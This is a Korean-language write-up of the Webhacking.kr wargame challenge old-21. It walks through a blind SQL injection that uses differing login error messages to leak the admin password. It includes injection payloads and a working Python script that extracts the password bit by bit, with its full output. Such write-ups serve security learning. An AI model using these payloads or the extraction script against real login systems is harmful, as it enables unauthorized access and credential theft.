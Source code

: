 ```yaml
---
title: ["[Webhacking.kr] old-21"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, blind sqli, binary search, mysql, blackbox]
---
```

## Intro

또 블랙박스 SQLi다.  
이전의 블랙박스 SQLi와는 다르게, 필터링되는 문구가 많지 않은 기본 문제인 것 같다.  

## Analysis

쿼리의 결과를 판단할 수 있는 result 창이 있어서,  
`sleep`이나 `benchmark`없이 Blind SQLi가 가능할 것 같다.  

쿼리의 결과가 거짓이고, `pw` 비교에 실패한 경우,  
`login fail`을 출력하고,  
쿼리의 결과가 참이지만, `pw` 비교가 실패한 경우,  
`wrong password`를 출력한다.  

이를 이용해서 Blind SQLi 페이로드를 작성할 수 있다.  



먼저, pw의 길이를 구해보자.  
```
?id=admin&pw=1'or length(pw)=36 and id='admin
```  
이렇게 파라미터를 넘기면 내부에서 쿼리가 아래와 같이 실행될 것이다.  
```mysql
SELECT * from chall21 where id='admin' and pw='1'or length(pw)=36 and id='admin'
```  
`id='admin' and pw='1'`은 거짓이고,  
`admin`의 `pw` 길이가 36인 경우, `length(pw)=36 and id='admin'`은 참이다.  
쿼리의 결과는 참이지만, pw가 틀려 `wrong password`가 나오게 된다.  

같은 원리로 pw를 한글자씩 계산할 수 있다.   

```
?id=admin&pw=1'or ord(substr(pw,1,1))&1<<6 and id='admin
```  
이진탐색을 이용한 Blind SQLi 쿼리이다.  
`pw` 한 글자를 binary 값으로 바꾸고, 한비트씩 shift시켜서 문자열을 계산하는 방식이다.  

이전 문제에서는 `<`가 필터링되어 있어서 사용을 못했는데,  
이번 문제와 같이 `pw`의 길이가 길때는 7번의 loop으로 한 글자를 계산할 수 있는 이진탐색을 사용한 페이로드가 효과적이다.  


## Payload

```python
import requests

url = "https://webhacking.kr/challenge/bonus-1/"
cookies = {"PHPSESSID": "44vvod9aiio7vkpuqie2jualol"}

pw_len = 0
for i in range(1,50):
    payload = f"1'or length(pw)={i} and id='admin"
    response = requests.get(f"{url}?id=admin&pw={payload}", cookies=cookies)
    if('wrong password' in response.text):
        pw_len = i
        print(f"Password length is {pw_len}")

pw = ''
for i in range(1, pw_len+1):
    char = 0
    for bit in range(6, -1, -1):
        payload = f"1'or ord(substr(pw,{i},1))%26{1<<bit} and id='admin"
        response = requests.get(f"{url}?id=admin&pw={payload}", cookies=cookies)

        if('wrong password' in response.text):
            char += 1<<bit
    pw += chr(char)
    print(f"Password is {pw}")
```

```
Password length is 36
Password is t
Password is th
Password is the
Password is ther
Password is there
Password is there_
Password is there_i
Password is there_is
Password is there_is_
Password is there_is_n
Password is there_is_no
Password is there_is_no_
Password is there_is_no_r
Password is there_is_no_re
Password is there_is_no_res
Password is there_is_no_rest
Password is there_is_no_rest_
Password is there_is_no_rest_f
Password is there_is_no_rest_fo
Password is there_is_no_rest_for
Password is there_is_no_rest_for_
Password is there_is_no_rest_for_t
Password is there_is_no_rest_for_th
Password is there_is_no_rest_for_the
Password is there_is_no_rest_for_the_
Password is there_is_no_rest_for_the_w
Password is there_is_no_rest_for_the_wh
Password is there_is_no_rest_for_the_whi
Password is there_is_no_rest_for_the_whit
Password is there_is_no_rest_for_the_white
Password is there_is_no_rest_for_the_white_
Password is there_is_no_rest_for_the_white_a
Password is there_is_no_rest_for_the_white_an
Password is there_is_no_rest_for_the_white_ang
Password is there_is_no_rest_for_the_white_ange
Password is there_is_no_rest_for_the_white_angel
```